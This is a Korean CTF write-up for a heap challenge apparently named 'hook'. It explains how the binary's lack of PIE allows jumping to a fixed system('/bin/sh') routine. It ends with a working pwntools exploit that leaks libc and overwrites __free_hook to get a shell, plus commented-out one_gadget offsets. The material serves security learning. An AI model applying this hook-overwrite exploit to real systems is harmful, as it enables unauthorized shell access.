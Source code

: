해당 스크린샷을 보면, `0x0000000000400a11 <+199>:   mov    edi,0x400aeb` 에서 바로 아래의 `system` 함수를 실행하기 전 인자를 설정해주는 것이 보인다.

`0x400aeb`는 `x/s`를 통해서 확인해보면 `"/bin/sh"` 문자열이 저장된 주소임을 알 수 있다.

<img width="233" alt="image" src="https://github.com/user-attachments/assets/abd9b56c-fc7f-40f8-9cc9-8dd5eb0a2369">

따라서, `*(ptr + 1)`에 `0x400a11`을 대입해주면 `__free_hook`이 호출될 경우 `0x400a11`로 이동해서 인자를 설정 후 `system` 함수를 실행하는 `main`의 루틴을 따라가게 될 것이다. 이렇게 익스플로잇이 가능한 이유는 아래의 두 이유 때문이다.

1. `0x400a11`로 이동하면 오류가 발생하기 전에는 `instruction`을 순차적으로 수행한다.

2. 해당 바이너리는 코드 영역의 주소를 랜덤화하는 `PIE`가 적용되어 있지 않기 때문에 `0x400a11`이라는 고정된 가상 주소를 사용할 수 있다.

만약 `PIE`가 적용되었다면 아래와 같이 고정된 가상 주소가 아닌 코드 영역의 베이스 주소에 더하는 오프셋으로 나타나기 때문에, 코드 영역의 베이스 주소를 알아야 할 것이다.

<img width="560" alt="image" src="https://github.com/user-attachments/assets/30e7952c-437c-460b-a0b5-71106c5a11a7">

# Exploit 코드

```
from pwn import *

context.arch = "amd64"

p = remote("host3.dreamhack.games", 17398)
elf = ELF("./hook")
libc = ELF("./libc-2.23.so")

# [1] Leak libc base
p.recvuntil(b"stdout: ")
libc_stdout = int(p.recvline()[:-1], 16)
libc_base = libc_stdout - libc.symbols["_IO_2_1_stdout_"]

free_hook = libc_base + libc.symbols["__free_hook"]
sh = 0x400a11  # mov rdi, 0x400aeb : "/bin/sh" 의 주소

p.sendline(str(16).encode())
p.send(p64(free_hook) + p64(sh))

# libc_system = libc_base + libc.symbols["system"]
# read = libc_base + libc.symbols["read"]
# write = libc_base + libc.symbols["write"]

# og = libc_base + 0x4527A  # [rsp+0x30] == NULL : 이것만 실제 exploit이 됨
# og = libc_base + 0xf03a4  # [rsp+0x50] == NULL : 이게 조건을 만족하는데
# og = libc_base + 0xf1247 # [rsp+0x70] == NULL

# system, write, read 다 되는데 왜 첫번째 og만 될까?
# p.send(p64(free_hook) + p64(og))
# p.send(p64(free_hook) + p64(system))
# p.send(p64(free_hook) + p64(write))
# p.send(p64(free_hook) + p64(read))

p.interactive()
```
